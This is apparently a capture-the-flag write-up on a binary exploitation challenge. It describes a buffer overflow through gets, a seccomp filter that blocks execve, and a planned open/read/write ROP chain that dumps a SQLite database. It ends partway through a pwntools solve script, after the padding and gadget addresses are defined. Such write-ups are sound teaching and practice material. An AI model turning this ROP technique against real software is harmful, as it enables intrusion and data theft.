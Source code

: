 As we can see, there is a `gets` call in `read_name` to a 64-byte long buffer in `main`. This is a simple buffer overflow challenge, with `NX`-bit set so we cannot execute the stack and the `execve` (`59`) and `execveat` (`322`) syscalls are disabled using `seccomp`:

```c
__int64 disable_exec_syscall()
{
  int v0; // r8d
  int v1; // r9d
  int v2; // r8d
  int v3; // r9d

  ctx = seccomp_init(2147418112LL);
  seccomp_rule_add(ctx, 0, 59, 0, v0, v1);
  seccomp_rule_add(ctx, 0, 322, 0, v2, v3);
  return seccomp_load(ctx);
}
```

The goal is to get the `flag` from the `flag` table of the `messages.db` SQLite3 database.

The `open`, `read` and `write` `syscalls` are not disabled so we can theoretically write a ROP-chain to `open` `messages.db`, `read` all of its contents and `write` them out to ourselves.

To open the database (creating a file descriptor) (check the respective manuals)
- `RAX` should be `2`, which is the number of the `open` `syscall`
- `RDI` should be a pointer to the filename string (`messages.db`)
- `RSI` should be `0`, which means `O_RDONLY` (we want to read from the file)

To read the database:
- `RAX` should be `0`, which is the number of the `read` `syscall`
- `RDI` should be the file descriptor number returned by the previous `open` (likely `3` if no other files are open by the process)
- `RSI` should point to a writeable buffer, for example the address of the `.data` section
- `RDX` should be the number of bytes we want to read to the buffer

The write to content to `stdout`:
- `RAX` should be `1`, which is the number of the `write` `syscall`
- `RDI` should be the file descriptor number of `stdout` which is `1`
- `RSI` should point to the buffer where the data is stored
- `RDX` should be the number of bytes we want to write to `stdout`

Using `ROPGadget` we can find the necessary ROP gadgets to create a ROP chain which does exactly the previous steps ([`solve.py`](files/solve.py)):

```python
from pwn import *
from struct import pack
import re

# ROPgadget --binary ./out/prequels_revenge | grep "pop rdx ; pop rbx ; ret"

# Padding
p = b'a'*(64+8)

POP_RSI_RET =         0x0000000000401e54
POP_RDI_RET =         0x0000000000401e52
XOR_RAX_RAX_RET =     0x000000000052cca0
POP_RAX_RET =         0x00000000004c6d15
SYSCALL =             0x000000000053D785
POP_RDX_POP_RBX_RET = 0x000000000051400e
DATA_SECTION =        0x000000000063a140

MESSAGESDB =          0x00000000005A007F

CONST_0 =             0x0000000000000000
CONST_1 =             0x0000000000000001
CONST_2 =             0x0000000000000002
```